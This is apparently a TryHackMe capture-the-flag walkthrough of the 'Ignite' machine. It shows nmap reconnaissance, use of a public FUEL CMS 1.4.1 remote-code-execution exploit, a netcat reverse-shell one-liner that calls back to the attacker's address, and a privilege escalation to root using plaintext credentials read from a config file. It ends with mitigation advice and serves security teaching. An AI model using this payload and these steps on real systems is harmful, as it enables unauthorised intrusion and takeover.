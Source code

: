 # 🟩 Ignite – Try Hack Me (THM) Walkthrough Report  

**Prepared by:** Nishanth Antony  
**Date:** September 1, 2025  
**Difficulty:** Easy  
**Category:** Web Exploitation / Privilege Escalation  
**Platform:** TryHackMe (THM)  

-----

## **1. Executive Summary**

This report outlines the steps taken to compromise the `Ignite` machine. The assessment successfully identified and exploited a known **Remote Code Execution (RCE)** vulnerability in the **FUEL CMS** platform. Initial access was gained as the `www-data` user, and privilege escalation to the `root` user was achieved by leveraging credentials found in a database configuration file. The full system compromise highlights critical misconfigurations related to vulnerable software and insecure credential management.

-----

## **2. Methodology**

The assessment followed a methodical approach to penetration testing:

1.  **Reconnaissance:** Enumeration of open ports, services, and web server information.
2.  **Initial Foothold:** Exploitation of a known vulnerability to gain a low-privileged shell.
3.  **Privilege Escalation:** Post-exploitation enumeration to find a path to the `root` user.
4.  **Reporting:** Documentation of all findings, including the commands used and their outputs.

-----

## **3. Findings and Exploitation**

### **3.1 Reconnaissance: Identifying Vulnerable Software**

The initial step was to perform a network scan to identify the running services and their versions.

**Command & Output:**

```bash
# Nmap 7.80 scan initiated Sun Jun 14 20:38:52 2020 as: nmap -sC -sV -T4 -A -oN ignite.nmap <target_ip>
...
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 1 disallowed entry
|_/fuel/
...
|_http-title: Welcome to FUEL CMS
```

**Findings:** The Nmap scan revealed that port 80 was running a web server hosting **FUEL CMS**. The `robots.txt` file also provided a key piece of information, indicating the `/fuel/` directory.

### **3.2 Initial Access: Remote Code Execution (RCE)**

A search for known vulnerabilities for "FUEL CMS" using `searchsploit` immediately returned a result for a **Remote Code Execution (RCE)** vulnerability.

**Commands & Outputs:**

```bash
┌──(Nishanth㉿LAPTOP-4CC2EUBM)-[~]
╰─$ searchsploit fuel cms
------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                                                                      |  Path
------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
fuelCMS 1.4.1 - Remote Code Execution                                                                                               | linux/webapps/47138.py
------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
Shellcodes: No Results
...
┌──(Nishanth㉿LAPTOP-4CC2EUBM)-[~]
╰─$ searchsploit -m linux/webapps/47138.py
...
Copied to: /twseptian/47138.py
```

The Python exploit script `47138.py` was downloaded. I used this script in conjunction with `Burp Suite` to inject a reverse shell payload.

**Commands & Outputs:**

  * **Netcat Listener:**

    ```bash
    ┌──(Nishanth㉿LAPTOP-4CC2EUBM)-[~]
    ╰─$ nc -lvnp 4444
    Ncat: Version 7.80 ( https://nmap.org/ncat )
    Ncat: Listening on :::4444
    Ncat: Listening on 0.0.0.0:4444
    ```

  * **RCE Exploit Payload:** I used the following reverse shell command as the payload for the Python script:

    ```
    rm /tmp/f ; mkfifo /tmp/f ; cat /tmp/f | /bin/sh -i 2>&1 | nc <your_ip_address> 4444 >/tmp/f
    ```

  * **Reverse Shell Connection:**

    ```
    Ncat: Connection from <target_ip>.
    Ncat: Connection from <target_ip>:47538.
    /bin/sh: 0: can't access tty; job control turned off
    $ id
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
    $ whoami
    www-data
    ```

**Result:** A low-privileged shell was obtained as the **`www-data`** user.

### **3.3 Privilege Escalation to `root`**

From the `www-data` shell, I began enumerating the file system to find a way to escalate privileges. The first goal was to find the user flag, which was located in `/home/www-data/flag.txt`.

**Commands & Outputs:**

```bash
www-data@ubuntu:/var/www/html$ cd /home/www-data
www-data@ubuntu:/home/www-data$ ls -la
...
-rw-r--r-- 1 root     root       34 Jul 26  2019 flag.txt
www-data@ubuntu:/home/www-data$ cat flag.txt
<redacted_flag>
```

To escalate to `root`, I investigated the web application's configuration files. I found a database configuration file, `database.php`, in the `fuel/application/config/` directory.

**Commands & Outputs:**

```bash
www-data@ubuntu:/var/www/html$ cat fuel/application/config/database.php
...
$db['default'] = array(
        'dsn'   => '',
        'hostname' => 'localhost',
        'username' => 'root',
        'password' => 'mememe',
        'database' => 'fuel_schema',
...
```

**Vulnerability:** The database configuration file contained plaintext credentials for the `root` user on the local system. This is a severe security misconfiguration.

**Exploitation:** The credentials `root:mememe` were used with the `su` command to switch to the `root` user.

**Commands & Outputs:**

```bash
www-data@ubuntu:/var/www/html$ su - root
su - root
Password: mememe
root@ubuntu:~# id
id
uid=0(root) gid=0(root) groups=0(root)
root@ubuntu:~# whoami
whoami
root
root@ubuntu:~# cd /root
root@ubuntu:~# ls -l
total 4
-rw-r--r-- 1 root root 34 Jul 26  2019 root.txt
root@ubuntu:~# cat root.txt
<redacted_flag>
```

**Result:** Full system compromise was achieved by leveraging the leaked `root` credentials.

-----

## **4. Mitigation Recommendations**

  * **Vulnerability Management:** The web server is running a version of **FUEL CMS (1.4.1)** that is known to be vulnerable to **RCE (CVE-2018-16763)**. The application should be immediately updated to a secure, patched version.
  * **Secure Credential Storage:** **Sensitive credentials, especially for the `root` user, should never be stored in plaintext within a web application's configuration files.** The database should use a separate, non-privileged user account.
  * **Principle of Least Privilege:** The web server process (`www-data`) should not have permissions to read files in the `/home/` directory or other sensitive locations. Permissions should be restricted to only what is necessary.
  * **Filesystem Security:** The `www-data` user's home directory should not be accessible to the `root` user in a way that allows a user to access flags, or any files with sensitive data.
